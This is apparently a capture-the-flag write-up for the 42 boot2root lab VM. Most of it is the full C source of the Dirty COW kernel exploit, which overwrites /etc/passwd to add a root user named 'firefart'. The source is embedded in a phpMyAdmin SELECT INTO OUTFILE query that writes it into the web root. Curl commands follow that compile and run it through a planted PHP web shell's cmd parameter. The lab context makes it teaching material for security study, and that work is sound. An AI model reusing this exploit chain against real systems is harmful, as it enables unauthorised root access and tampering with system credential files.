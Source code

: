 Need to do steps from [Main Way](https://github.com/MrOnimus/42_boot2root/blob/master/writeup1.md) to stage after access to cmd throgh get request.

After this need to run SQL command in phpmyadmin:
```
SELECT  '#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = \"/etc/passwd\";
const char *backup_filename = \"/tmp/passwd.bak\";
const char *salt = \"firefart\";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = \"%s:%s:%d:%d:%s:%s:%s\\n\";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf(\"madvise %d\\n\\n\", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf(\"File %s already exists! Please delete it and run again\\n\",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, \"r\");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, \"w\");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf(\"%s successfully backed up to %s\\n\",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = \"firefart\";
  user.user_id = 0;
  user.group_id = 0;
  user.info = \"pwned\";
  user.home_dir = \"/root\";
  user.shell = \"/bin/bash\";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf(\"Please enter the new password: %s\\n\", plaintext_pw);
  } else {
    plaintext_pw = getpass(\"Please enter the new password: \");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf(\"Complete line:\\n%s\\n\", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf(\"mmap: %lx\\n\",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf(\"ptrace %d\\n\",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf(\"Done! Check %s to see if the new user was created.\\n\", filename);
  printf(\"You can log in with the username \'%s\' and the password \'%s\'.\\n\\n\",
    user.username, plaintext_pw);
    printf(\"\\nDON\'T FORGET TO RESTORE! $ mv %s %s\\n\",
    backup_filename, filename);
  return 0;
}' INTO OUTFILE '/var/www/forum/templates_c/exploit.c'
FIELDS TERMINATED BY '\t' ENCLOSED BY '' ESCAPED BY ''
LINES TERMINATED BY '\r\n' STARTING BY '

```

It's dirtycow epxploit **https://www.exploit-db.com/exploits/40839**.
I change symbols for correct sql format with http://www.unit-conversion.info/texttools/replace-text/
(Replace " -> \\", ' -> \\', \n -> \\\n)

And set with help https://stackoverflow.com/questions/5268088/extra-backslash-when-select-into-outfile-in-mysql
```
LINES TERMINATED BY '\r\n'
ESCAPED BY ''
```
because lines ended with '\\' symbol and I couldn't compile file and escaped symboles conflict with each other.


After that compile and run exploit with:
```
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=gcc%20-pthread%20exploit.c%20-o%20exploit%20-lcrypt"
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=ls" //check if it correct compile
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=./exploit%20123"
```

And we have firefart user which is root. But I don't now how log in because su or su -c can't get passwd as argument

